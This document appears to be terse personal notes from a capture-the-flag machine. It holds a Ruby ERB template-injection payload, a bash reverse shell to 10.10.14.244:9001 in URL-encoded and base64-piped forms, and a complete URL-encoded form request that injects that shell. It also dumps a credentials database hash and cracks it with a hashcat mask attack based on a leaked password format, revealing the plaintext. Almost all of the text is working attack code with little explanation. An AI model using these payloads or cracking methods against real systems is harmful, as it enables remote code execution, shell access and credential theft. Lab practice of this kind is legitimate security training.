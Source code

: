 # Ruby SSTI

<%= system('cat /root/root.txt') %> <- returns true or false based on access using 'system'

bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.244%2F9001%200%3E%261

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDQvOTAwMSAwPiYx | base64 -d | bash <- base64 revshell

`find .ssh/ -type f -exec chmod 600 {} \;; find .ssh/ -type d -exec chmod 700 {} \;; find .ssh/ -type f -name "*.pub" -exec chmod 644 {} \;
`

`category1=1%0A<%25%3d+system('echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNDQvOTAwMSAwPiYx+|+base64+-d+|+bash')+%25>&grade1=1&weight1=1&category2=2&grade2=2&weight2=1&category3=3&grade3=3&weight3=1&category4=4&grade4=4&weight4=1&category5=5&grade5=5&weight5=96
` <- complete SSTI for rev shell ruby

# SQLITE Db
cat pupilpath_credentials.db 
��^�ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a�\
Susan Miller
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f

https://www.dcode.fr/cipher-identifier

# cat /var/mail/susan

Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student

# Hashcat crack
hashcat -m 1400 ./susan.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210



